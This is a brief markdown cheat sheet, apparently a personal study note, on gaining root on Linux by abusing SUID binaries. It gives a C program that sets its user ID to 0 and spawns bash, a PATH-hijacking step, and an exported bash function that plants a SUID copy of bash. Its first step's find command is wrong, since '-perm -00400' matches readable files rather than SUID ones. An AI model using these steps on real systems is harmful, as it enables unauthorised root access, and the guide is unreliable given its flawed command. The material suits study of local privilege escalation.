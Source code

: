 ```yaml
---
aliases:
  - Lunux Privilege Escalation via Environment Variables
tags:
  - tech
  - cybsec
  - linux
  - privilege_escalation
  - privesc
  - suid
  - set_user_id
  - environment_variables
author: Mehdi N Tehrani
creat_date: 2023-12-17
category: Cyber Security
subcategory: Linux Security
---
```

# Use a file to exploit
## 1. find files with suid set
`find / -type f -perm -00400`
## 2. find out if an executable is being called
using process logs, `strings` or ghidra, etc.
## 3. make a malicious executable 
```c
int main() {
   setuid(0);
   setgid(0);
   system("/bin/bash");
   return 0; 
}
```
and compile it to the name of the executable found in step 2
`gcc -o executable_name in.c`
put it in a path which have access to like `/tmp`
## 4. add dir path to PATH env var
`export PATH=/dirpath/to/c:$PATH`
e.g.
`export PATH=/tmp:$PATH`

## 5. run the executable
this will run a bash shell with root permissions

# Use a function to exploit
Try step 1 and 2 from previous section
```sh
# make a function whose name is the same as a path to an executable with suid set
$ function /path/to/file() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
$ export -f /path/to/file    # i.e. function name
#         ^ function
# then run the parent file which calls the child file for which we just made a function; note that the function name is the same as the child file's full path 
```





